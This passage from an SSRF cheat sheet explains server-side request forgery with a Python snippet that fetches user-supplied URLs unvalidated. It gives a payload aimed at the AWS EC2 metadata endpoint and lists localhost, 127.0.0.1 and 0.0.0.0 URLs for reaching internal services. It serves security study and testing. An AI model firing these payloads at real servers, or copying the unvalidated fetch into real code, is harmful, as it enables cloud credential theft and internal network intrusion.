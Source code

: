 
## Methodology

SSRF is a security vulnerability that occurs when an attacker manipulates a server to make HTTP requests to an unintended location. This happens when the server processes user-provided URLs or IP addresses without proper validation.

Common exploitation paths:

- Accessing Cloud metadata
- Leaking files on the server
- Network discovery, port scanning with the SSRF
- Sending packets to specific services on the network, usually to achieve a Remote Command Execution on another server


**Example**: A server accepts user input to fetch a URL.

```py
url = input("Enter URL:")
response = requests.get(url)
return response
```

An attacker supplies a malicious input:

```ps1
http://169.254.169.254/latest/meta-data/
```

This fetches sensitive information from the AWS EC2 metadata service.


## Bypassing Filters

### Default Targets

By default, Server-Side Request Forgery are used to access services hosted on `localhost` or hidden further on the network.

* Using `localhost`
  ```powershell
  http://localhost:80
  http://localhost:22
  https://localhost:443
  ```
* Using `127.0.0.1`
  ```powershell
  http://127.0.0.1:80
  http://127.0.0.1:22
  https://127.0.0.1:443
  ```
* Using `0.0.0.0`
  ```powershell
  http://0.0.0.0:80
  http://0.0.0.0:22
  https://0.0.0.0:443
  ```
